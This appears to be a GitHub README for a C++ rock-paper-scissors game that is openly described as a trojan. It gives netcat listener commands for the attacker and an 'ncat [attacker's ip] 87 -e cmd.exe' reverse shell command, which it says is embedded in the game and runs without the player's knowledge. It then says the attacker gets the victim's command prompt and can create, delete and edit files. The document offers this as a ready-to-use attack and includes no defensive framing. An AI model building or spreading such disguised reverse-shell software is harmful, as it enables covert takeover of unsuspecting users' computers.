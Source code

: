 # Rock-paper-scissor
This is a rock paper scissor game written in c++ that uses reverse shell to establish connection back to attacker's machine from the target machine.

# Get-started
### Attacker's machine

linux: `nc -lnvp 87`
windows: `ncat -lnvp 87` 
<p><b>NB</b>: 87 is the port number used for listening to incoming connections,</p>

### Target's machine

windows: `ncat [attacker's ip] 87 -e cmd.exe`
<p><b>NB</b>: The command to be executed are embedded in the game and are for windows users who have ncat installed already.</P>

## How it works

The attacker execute the above command to listen for incoming connection and when the user on the target machine opens the game 
and start to play the commands execute themselves without the user acknowledgement and an attacker get connected to target machine and gain access 
to the command prompt. After that, the attacker can carry out some operations to the targeted computer like create files, delete files, edit files,...

## Play The Game

To play the rock,paper,scissor game you first click on the executable file and then follow the instructions required to play the game
that are prompted after clicking on the executable file.
